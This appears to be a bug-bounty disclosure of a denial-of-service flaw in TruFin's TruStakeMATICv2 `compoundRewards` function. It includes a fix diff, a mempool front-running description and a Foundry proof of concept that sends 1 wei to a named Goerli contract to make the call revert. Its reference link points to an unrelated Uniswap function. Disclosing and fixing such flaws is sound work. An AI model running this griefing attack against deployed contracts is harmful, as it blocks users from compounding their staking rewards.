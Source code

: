 # DoS attack on the function `compoundRewards`

- Protocol: [TruFin](https://www.trufin.io/)
- Severity: Medium

## Target(s)

- [TruStakeMATICv2(Proxy)](https://eth-goerli.blockscout.com/address/0x0ce41d234f5E3000a38c5EEF115bB4D14C9E1c89?tab=contract) / [TruStakeMATICv2(Implementation)](https://eth-goerli.blockscout.com/address/0x8f293490E6315f23f68f11A9861448aEA566530E?tab=contract)

## Impact(s)

- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Bug Description

The function `compoundRewards` call the function `_deposit` if the contract `TruStakeMATICv2` has a balance:

```solidity
    if (totalAssets() > 0) {
        _deposit(address(0), 0, _validator);
    }
```

As we can see, the internal function `_deposit` is called with the parameter `_user: address(0)` and inside it a `safeTransferFrom` is performed from the `address(0)` to the `TruStakeMATICv2` contract:

```solidity
    // transfer staking token from user to Staker
    IERC20Upgradeable(stakingTokenAddress).safeTransferFrom(_user, address(this), _amount);
```

As the `stakingTokenAddress` token the transaction reverts when performing a `transferFrom` with the `from: address(0)` parameter (_approve::`require(spender != address(0));`):

```solidity
   function transferFrom(address from, address to, uint256 value) public returns (bool) {
        _transfer(from, to, value);
        _approve(from, msg.sender, _allowed[from][msg.sender].sub(value));
        return true;
    }

    function _approve(address owner, address spender, uint256 value) internal {
        require(spender != address(0));
        require(owner != address(0));

        _allowed[owner][spender] = value;
        emit Approval(owner, spender, value);
    }
```

## Impact

- Users would not be able to use the `compoundRewards` function if the contract has at least 1 wei of `stakingTokenAddress` token

## Recommendation

In the `_deposit` add this if:

```solidity
    function _deposit(address _user, uint256 _amount, address _validator) private returns (uint256) {
        if (!_canAccessValidator(_user, _validator)) revert ValidatorAccessDenied();
        if (validators[_validator].state != ValidatorState.ENABLED) revert ValidatorNotEnabled();

        (uint256 globalPriceNum, uint256 globalPriceDenom) = sharePrice();

        // calculate share increase
        uint256 shareIncreaseUser = convertToShares(_amount);
        uint256 shareIncreaseTsy = (getRewardsFromValidator(_validator) * phi * 1e18 * globalPriceDenom) / (globalPriceNum * PHI_PRECISION);

        // piggyback previous withdrawn rewards in this staking call
        uint256 totalAssetBalance = totalAssets();
        uint256 stakeAmount = _amount + totalAssetBalance;
        // adjust share balances
        if (_user != address(0)) _mint(_user, shareIncreaseUser);

        _mint(treasuryAddress, shareIncreaseTsy);

        // transfer staking token from user to Staker
+       if (_user != address(0)) {
            IERC20Upgradeable(stakingTokenAddress).safeTransferFrom(_user, address(this), _amount);
+       }

        // approve funds to Stake Manager
        IERC20Upgradeable(stakingTokenAddress).safeIncreaseAllowance(stakeManagerContractAddress, stakeAmount);

        // interact with Validator Share contract to stake
        _stake(stakeAmount, _validator);
        // claimed rewards increase here as liquid rewards on validator share contract
        // are set to zero rewards and transferred to this vault

        emit Deposited(_user, shareIncreaseTsy, shareIncreaseUser, _amount, stakeAmount, totalAssetBalance, _validator);

        return shareIncreaseUser;
    }
```

## References

- https://docs.uniswap.org/contracts/v2/reference/smart-contracts/router-02#swapexacttokensfortokens

## Proof of Concept

As we can see in the following code, an attacker can send 1 wei of `stakingTokenAddress` token to the contract causing the `compoundRewards` function call reverts.

The attacker has to look up the transaction in the mempool and send 1 wei, causing the transaction reverts.

```solidity
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/StdUtils.sol";

contract PoC is Test {
    ITruStakeMATICv2 stake = ITruStakeMATICv2(0x0ce41d234f5E3000a38c5EEF115bB4D14C9E1c89);
    address validator = 0x1a9155Ead92CD339E3AE789fD3a5dC60ae268634;
    address attackerDoS = 0xd85Eb58f7bdAFcB3e580Dc0012470d2476859c6b;
    address randomSender = address(1234567890);

    function setUp() public {
        vm.selectFork(vm.createFork("https://rpc.ankr.com/eth_goerli"));
    }

    function testNormal() public {
        stake.compoundRewards(validator);
    }

    function testDoS() public {
        // The attacker transfer 1 wei of stakingToken to the TruStakeMATICv2 contract
        IERC20 stakingToken = stake.stakingTokenAddress();
        vm.prank(attackerDoS);
        stakingToken.transfer(address(stake), 1);

        // At this point the compoundRewards function reverts
        vm.prank(randomSender);
        stake.compoundRewards(validator);
    }
}

interface ITruStakeMATICv2 {
    function stakingTokenAddress() external view returns(IERC20);

    function compoundRewards(address _validator) external;
}

interface IERC20 {
    function transfer(address to, uint256 value) external returns (bool);
}
```
